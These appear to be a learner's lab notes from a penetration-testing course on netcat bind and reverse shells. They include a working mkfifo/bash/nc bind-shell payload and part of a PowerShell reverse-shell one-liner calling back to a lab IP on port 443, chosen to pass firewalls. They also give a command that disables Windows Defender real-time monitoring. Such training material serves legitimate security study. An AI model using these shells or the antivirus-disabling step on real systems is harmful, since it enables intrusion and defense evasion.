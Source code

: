 - usually Netcat is used

How to have a basic connection using **Netcat**:
1) Start a Netcat listener on the target machine
```shell-session
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
```
2) Connect to the target
```shell-session
TonyS23@htb[/htb]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```
- notice that everything we write on local after the connection is established will appear on the server-side remotely

Establishing a basic **bind shell** with Netcat:
1) On the target system, enter the following commands:
```shell-session
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```
- these commands are considered our payload
2) Now connect normally with Netcat to the target:
```shell-session
TonyS23@htb[/htb]$ nc -nv 10.129.41.200 7777

Target@server:~$ 
```
==Note: Bind shells are easy to spot and stop.==
## Reverse Shells
- the attacker machine is listening for a connection and the target will connect
![[reverseshell.webp]]
==Note: Admins often overlook outbound connections so it's safer than a bind shell.==

How to get a simple reverse shell (from Windows - PowerShell to Kali Linux):
1) First we need to start a server on our machine:
```shell-session
TonyS23@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
```
- notice that we are opening it on a common port - 443, usually used for HTTPS connections (it can pass through the firewall and doesn't seems suspect)
2) On the target machine, open CMD and input the one-liner below:
![[Pasted image 20241204144204.png]]
==Note: Don't forget to change the ip with the server's ip.==
3) Now we have an interactive shell to the Windows machine (target), where we are the server and the target is the client.

**IMPORTANT**
- if we get something like this:
```cmd-session
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```
- this means that the AV (anti virus) stopped the execution
- the solution is to disable it with the PowerShell command below:
```powershell-session
Set-MpPreference -DisableRealtimeMonitoring $true
```